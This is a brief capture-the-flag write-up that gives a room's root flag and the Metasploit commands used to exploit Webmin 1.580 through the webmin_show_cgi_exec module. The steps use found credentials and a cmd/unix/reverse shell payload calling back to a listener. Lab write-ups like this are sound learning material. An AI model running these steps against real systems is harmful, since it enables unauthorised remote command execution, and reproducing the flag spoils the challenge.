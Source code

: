 *Answer the questions below*

What is the root flag?

```
a4b945830144bdd71908d12d902adeee
```

---

Using `msfconsole`:
```bash
search type:exploit name:webmin
```

```bash
use exploit/unix/webapp/webmin_show_cgi_exec
```

```bash
set USERNAME agent47
```

```bash
set PASSWORD videogamer124
```

```bash
set RHOSTS localhost
```

```bash
set payload cmd/unix/reverse
```

```bash
set SSL false
```

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.13.36.143     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580


```